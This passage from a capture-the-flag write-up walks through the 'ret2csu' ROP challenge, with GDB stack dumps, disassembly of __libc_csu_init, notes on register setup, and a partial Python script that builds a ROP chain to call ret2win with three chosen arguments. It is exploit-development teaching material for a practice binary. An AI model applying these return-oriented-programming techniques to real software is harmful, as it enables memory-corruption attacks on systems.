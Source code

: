 ```
0x7fff4c14ad18:	0x0000000000400510	0x0000000000400520
0x7fff4c14ad28:	0x00007fff4c14add0	0x0000000000000000
0x7fff4c14ad38:	0x0000000000000000	0x936a092fcd7ab098
0x000000000040068d in __libc_csu_init ()
```
- As we can see above, we're back in `__libc_csu_init` as expected, but there are some additional instructions that we're going to have to adjust for before the function returns
- The first hurdle we're going to have to overcome is that we don't want the jump to occur here:
```
=> 0x40068d <__libc_csu_init+77>:	add    rbx,0x1
   0x400691 <__libc_csu_init+81>:	cmp    rbp,rbx
   0x400694 <__libc_csu_init+84>:	jne    0x400680 <__libc_csu_init+64>
```
- As shown above, rbx has 1 added to itself, rbp is compared to new rbx, then jump happens only if they're **not** equal. So in order for us to **not** jump, we want to set rbp to the new rbx value (original_rbx + 1)

- Then before we return, there are a number of stack related instructions (equivalent to 7 stack entries in total):
```
   0x400696 <__libc_csu_init+86>:	add    rsp,0x8
   0x40069a <__libc_csu_init+90>:	pop    rbx
   0x40069b <__libc_csu_init+91>:	pop    rbp
   0x40069c <__libc_csu_init+92>:	pop    r12
   0x40069e <__libc_csu_init+94>:	pop    r13
   0x4006a0 <__libc_csu_init+96>:	pop    r14
   0x4006a2 <__libc_csu_init+98>:	pop    r15
   0x4006a4 <__libc_csu_init+100>:	ret
```
- We don't care about any of these values at this point, so we can just add nonsense values to the ROP chain for them. Note that the `add rsp,0x8` instruction doesn't affect any registers, but it effectively skips over one of our stack entries.
- Go back to 2nd terminal to update Python script for hopefully a successful dry run

### Back to 2nd terminal again
- Update Python script:
```python
import struct
import sys

def p64(value: int) -> bytes:
    return struct.pack('<Q', value)

def main():
    elf = './ret2csu'
    # Goal: ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)

    # ROP gadgets
    ret2win_plt = 0x400510
    pop_rdi = 0x4006a3
    pop_r12_r13_r14_r15 = 0x40069c
    mov_rdx_r15__mov_rsi_r14__mov_edi_r13d__call_at_r12_rbx8 = 0x400680

    # Constants
    padding = b'A'*8*4
    rbx_val = 0x400640  # rbp value when executing `call qword [r12 + rbx*8]`
    rbp_val = rbx_val+1 # to prevent jump after `0x400691 <__libc_csu_init+81>:	cmp rbp,rbx`
    fini_ptr = 0x600e48 # target value
    # NOTE: r12_val=0xfffffffffe5fdc48 so that when `r12 + rbx*8` is evaluated, set high value for r12 such when rbx*8 is added it overflows and the memory address evaluates to 0x600e48
    r12_val = 0x10000000000000000 + fini_ptr - (rbx_val*8) # 0x10000000000600e48-(0x400640*8)==0xfffffffffe5fdc48
    r12_bytes = p64(r12_val)
    rdi_bytes = p64(0xdeadbeefdeadbeef)
```